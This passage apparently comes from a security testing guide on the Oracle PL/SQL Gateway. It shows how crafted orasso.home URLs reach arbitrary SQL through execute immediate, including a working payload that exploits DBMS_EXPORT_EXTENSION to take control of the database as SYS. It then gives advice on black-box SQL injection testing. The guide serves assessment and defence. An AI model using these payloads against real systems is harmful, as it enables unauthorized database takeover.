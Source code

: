 Note the presence of FOO in the attacker’s query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets:

`http://server.example.com/pls/dad/orasso.home?);--=BAR`

This results in the following PL/SQL being executed:

```sql
..
orasso.home();--=>:);--);
..
```

Note that everything after the double minus (`--`) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it’s this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use `HTP.PRINT` to print BAR, and add the needed bind variable as :1:

`http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

This should return a `200` with the word “BAR” in the HTML. What’s happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it’s possible to also gain access to `owa_util.cellsprint` again:

`http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1:

`http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

Note that the output won’t be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in `DBMS_EXPORT_EXTENSION`

```txt
http://www.example.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

### Assessing Custom PL/SQL Web Applications

During black box security assessments, the code of the custom PL/SQL application is not available, but it still needs to be assessed for security vulnerabilities.

#### Testing for SQL Injection

Each input parameter should be tested for SQL injection flaws. These are easy to find and confirm. Finding them is as easy as embedding a single quote into the parameter and checking for error responses (which include 404 Not Found errors). Confirming the presence of SQL injection can be performed using the concatenation operator.
